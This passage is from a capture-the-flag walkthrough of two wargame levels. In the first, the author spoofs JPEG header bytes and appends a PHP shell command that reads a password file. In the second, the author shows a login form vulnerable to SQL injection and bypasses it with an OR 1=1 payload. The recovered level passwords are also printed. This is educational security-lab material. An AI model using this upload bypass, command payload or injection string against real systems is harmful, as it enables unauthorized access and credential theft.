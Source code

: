 This function reads the first bytes of an image. Let's research more to know about **the first bytes** of a image.
![image](https://hackmd.io/_uploads/SkfTDUrnJe.png)
I see that `.jpg` files contain these bytes in the head of the file: `FF D8 FF E0`.
--> I only need to 'fake' these bytes in the first of the `.jpg` file, then insert PHP script to print out the password.
```shell=
echo -ne "\xFF\xD8\xFF\xE0" > shell.jpg
echo "<?php system('cat /etc/natas_webpass/natas14'); ?>" >> shell.jpg
```
Running these script in terminal to make the image file.
Using the same skill used in the previous level to get the password.
![image](https://hackmd.io/_uploads/Byqlt8r3Jg.png)
The password for level 14 is **z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**

## Level 14
![image](https://hackmd.io/_uploads/rJTSFIr2yg.png)
This is a login form. But I don't have any hint about the username and password. Let's try submitting some random usernames and passwords.
![image](https://hackmd.io/_uploads/rJwYtLHnyl.png)
Of course, I can't login :> Let's view source code.
```php=
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```
This is a basic SQL injection. 
The query: `$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";`
Type in the `Username`: `" OR 1=1#` --> make the password checking become a comment and make a bitwise operation OR between the username checking query and `1=1` (which is always return `true`) --> login successfully.
![image](https://hackmd.io/_uploads/rJxrGwrnkl.png)
![image](https://hackmd.io/_uploads/HJvfQDrnyl.png)
Password for level 15: **SdqIqBsFcz3yotlNYErZSZwblkm0lrvx**
